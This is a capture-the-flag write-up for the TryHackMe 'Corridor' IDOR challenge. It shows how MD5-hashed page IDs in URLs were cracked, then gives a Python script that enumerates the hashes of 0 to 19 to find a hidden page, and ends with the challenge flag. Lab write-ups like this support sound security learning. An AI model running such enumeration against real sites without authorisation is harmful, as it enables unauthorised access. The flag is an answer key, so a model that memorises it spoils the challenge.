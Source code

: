 ```
Platform: TryHackMe
Challenge: Corridor
Task: IDOR
OS: 
Tools Used: Python
Author: Paul B.
```
We are presented with a webpage of corridor, If we click on the door we are taken to a different page. 
![THM - Corridor](https://raw.githubusercontent.com/paulb-csr/CTF-Writeups/main/TryHackMe/Corridor/THM%20-%20Corridor.png)

Take a close look at the URL, we can see hash sum which looks similar to md5. 
![THM - Corridor Doors](https://raw.githubusercontent.com/paulb-csr/CTF-Writeups/main/TryHackMe/Corridor/THM%20-%20Corridor%20Page%201.png)

Let's crack the hash using [Crackstation](https://crackstation.net/). Hence we understood that the hash are nothing but numerical values starting from 1 to 13
![THM - Corridor Crackstation](https://raw.githubusercontent.com/paulb-csr/CTF-Writeups/main/TryHackMe/Corridor/THM%20-%20Corridor%20Crackstation.png)

Let's create a simple python script to guess the hidden door
```
#!/usr/bin/python3

import argparse
import hashlib
import requests

parser = argparse.ArgumentParser()
parser.add_argument('target_ip')

args = parser.parse_args()

for i in range(20):
	hashValue = hashlib.md5(f"{i}".encode('utf-8')).hexdigest()
	print(f"http://{args.target_ip}/{hashValue}")
	req = requests.get(f"http://{args.target_ip}/{hashValue}")
	status = req.status_code
	print(f'Value: {i}; Hash: {hashValue}; Status: {status}\n')

```
Run the script!
```
python3 md5.py [target IP]
```

Superb! The hidden page numeric value is `0` and the hash value is `cfcd208495d565ef66e7dff9f98764da`
![THM - Hidden Page](https://raw.githubusercontent.com/paulb-csr/CTF-Writeups/main/TryHackMe/Corridor/THM%20-%20Corridor%20Flag.png)

### Answer the questions below
What is the flag?
```
flag{2477ef02448ad9156661ac40a6b8862e}
```
